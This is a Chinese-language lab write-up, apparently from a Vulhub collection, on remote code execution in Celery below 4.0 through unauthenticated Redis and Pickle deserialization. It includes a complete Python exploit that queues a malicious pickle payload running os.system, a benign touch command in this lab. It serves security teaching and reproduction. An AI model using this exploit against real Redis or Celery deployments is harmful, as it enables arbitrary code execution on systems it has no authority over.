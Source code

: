 # Celery <4.0 Redis未授权访问+Pickle反序列化利用

## 漏洞描述

Celery 是一个简单、灵活且可靠的分布式系统，用于处理大量消息，同时为操作提供维护此类系统所需的工具。它是一个专注于实时处理的任务队列，同时也支持任务调度。

在Celery < 4.0版本默认使用Pickle进行任务消息的序列化传递，当所用队列服务（比如Redis、RabbitMQ、RocketMQ等等等）存在未授权访问问题时，可利用Pickle反序列化漏洞执行任意代码。

参考文章：

- https://docs.celeryproject.org/en/stable/userguide/configuration.html
- https://www.bookstack.cn/read/celery-3.1.7-zh/8d5b10e3439dbe1f.md#dhfmrk
- https://docs.celeryproject.org/en/stable/userguide/calling.html#serializers
- https://www.jianshu.com/p/52552c075bc0
- https://www.runoob.com/w3cnote/python-redis-intro.html
- https://blog.csdn.net/SKI_12/article/details/85015803

## 环境搭建

Vulhub执行如下命令启动Celery 3.1.23 + Redis：

```
docker-compose up -d
```

## 漏洞复现

漏洞利用脚本`exploit.py`仅支持在python3下使用

```python
import pickle
import json
import base64
import redis
import sys
r = redis.Redis(host=sys.argv[1], port=6379, decode_responses=True,db=0)

ori_str="{\"content-type\": \"application/x-python-serialize\", \"properties\": {\"delivery_tag\": \"16f3f59d-003c-4ef4-b1ea-6fa92dee529a\", \"reply_to\": \"9edb8565-0b59-3389-944e-a0139180a048\", \"delivery_mode\": 2, \"body_encoding\": \"base64\", \"delivery_info\": {\"routing_key\": \"celery\", \"priority\": 0, \"exchange\": \"celery\"}, \"correlation_id\": \"6e046b48-bca4-49a0-bfa7-a92847216999\"}, \"headers\": {}, \"content-encoding\": \"binary\", \"body\": \"gAJ9cQAoWAMAAABldGFxAU5YBQAAAGNob3JkcQJOWAQAAABhcmdzcQNLZEvIhnEEWAMAAAB1dGNxBYhYBAAAAHRhc2txBlgJAAAAdGFza3MuYWRkcQdYAgAAAGlkcQhYJAAAADZlMDQ2YjQ4LWJjYTQtNDlhMC1iZmE3LWE5Mjg0NzIxNjk5OXEJWAgAAABlcnJiYWNrc3EKTlgJAAAAdGltZWxpbWl0cQtOToZxDFgGAAAAa3dhcmdzcQ19cQ5YBwAAAHRhc2tzZXRxD05YBwAAAHJldHJpZXNxEEsAWAkAAABjYWxsYmFja3NxEU5YBwAAAGV4cGlyZXNxEk51Lg==\"}"
task_dict = json.loads(ori_str)
command = 'touch /tmp/celery_success'
class Person(object):
    def __reduce__(self):
        # 未导入os模块，通用
        return (__import__('os').system, (command,))
pickleData = pickle.dumps(Person())
task_dict['body']=base64.b64encode(pickleData).decode()
print(task_dict)
r.lpush('celery',json.dumps(task_dict))
```

```
pip install redis
python exploit.py [主机IP]
```

![image-20220301104913810](./images/202203011049883.png)

查看结果：

```
docker-compose logs celery
```

可以看到如下任务消息报错：

![image-20220301104801643](./images/202203011048739.png)

```
docker-compose exec celery ls -l /tmp
```

可以看到成功创建了文件`celery_success`

![image-20220301104827599](./images/202203011048652.png)

